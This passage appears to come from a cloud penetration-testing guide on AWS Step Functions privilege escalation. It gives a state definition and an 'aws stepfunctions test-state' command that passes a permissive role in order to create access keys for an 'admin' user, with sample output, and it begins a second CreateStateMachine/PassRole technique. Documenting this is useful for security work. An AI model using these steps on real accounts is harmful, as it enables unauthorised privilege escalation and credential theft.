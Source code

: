 ```bash
aws states test-state --definition <value> --role-arn <value> [--input <value>] [--inspection-level <value>] [--reveal-secrets | --no-reveal-secrets]
```

The following examples show how to test an state that creates an access key for the **`admin`** user leveraging these permissions and a permissive role of the AWS environment. This permissive role should have any high-privileged policy associated with it (for example **`arn:aws:iam::aws:policy/AdministratorAccess`**) that allows the state to perform the **`iam:CreateAccessKey`** action:

- **stateDefinition.json**:

```json
{
  "Type": "Task",
  "Parameters": {
    "UserName": "admin"
  },
  "Resource": "arn:aws:states:::aws-sdk:iam:createAccessKey",
  "End": true
}
```

- **Command** executed to perform the privesc:

```bash
aws stepfunctions test-state --definition file://stateDefinition.json --role-arn arn:aws:iam::<account-id>:role/PermissiveRole

{
  "output": "{
	  \"AccessKey\":{
		  \"AccessKeyId\":\"AKIA1A2B3C4D5E6F7G8H\",
		  \"CreateDate\":\"2024-07-09T16:59:11Z\",
		  \"SecretAccessKey\":\"1a2b3c4d5e6f7g8h9i0j1a2b3c4d5e6f7g8h9i0j1a2b3c4d5e6f7g8h9i0j\",
		  \"Status\":\"Active\",
		  \"UserName\":\"admin\"
	  }
  }",
	"status": "SUCCEEDED"
}
```

**Potential Impact**: Unauthorized execution and manipulation of workflows and access to sensitive resources, potentially leading to significant security breaches.

### `states:CreateStateMachine` & `iam:PassRole` & (`states:StartExecution` | `states:StartSyncExecution`)

An attacker with the **`states:CreateStateMachine`**& **`iam:PassRole`** would be able to create an state machine and provide to it any IAM role, enabling unauthorized access to other AWS services with the roles' permissions. In contrast with the previous privesc technique (**`states:TestState`** & **`iam:PassRole`**), this one does not execute by itself, you will also need to have the **`states:StartExecution`** or **`states:StartSyncExecution`** permissions (**`states:StartSyncExecution`** is **not available for standard workflows**, **just to express state machines**) in order to start and execution over the state machine.
